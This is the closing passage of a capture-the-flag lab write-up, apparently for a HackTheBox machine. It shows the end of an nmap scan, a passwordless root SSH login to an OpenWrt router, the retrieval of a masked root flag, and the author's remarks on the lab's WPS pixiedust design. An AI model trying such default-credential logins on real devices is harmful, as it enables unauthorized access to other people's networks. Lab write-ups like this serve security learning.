 ```bash
MAC Address: 02:00:00:00:01:00 (Unknown)

Read data files from: /etc
# Nmap done at Sat Jul 27 12:19:15 2024 -- 1 IP address (1 host up) scanned in 22.59 seconds
```

There is port 22 so I will try connecting as root without password because it's a router and it's very possible that there is no password:

```bash
root@attica01:/tmp# ssh root@192.168.1.1
The authenticity of host '192.168.1.1 (192.168.1.1)' can't be established.
ED25519 key fingerprint is SHA256:ZcoOrJ2dytSfHYNwN2vcg6OsZjATPopYMLPVYhczadM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.1' (ED25519) to the list of known hosts.


BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~# 
```

It worked! Now it's possible to see root.txt:

```bash
root@ap:~# cat root.txt 
bd****************************34
```

# Extra

It's not possible to gain access to the host machine (which is WifineticTwo, 10.10.11.7) because the purpose of this machine probably was to learn WPS pixiedust attack.

The interface eth0 its probably a interface with WifineticTwo as a route to create a new machine to each user for OpenPLC. Probably, the autor created this because if all the users received the shell in the same machine, it will be a chaos to try to connect to the wifi with WPS, assigning IP, etc. Also, if one user has already connected to the wifi, another user wouldn't need to make the pixiedust attack, so the need to learn this attack is lost.

I'm very curious of how the machines are created for each user, but unfortunately it's not possible.

That's the machine guys. Hope you enjoyed!
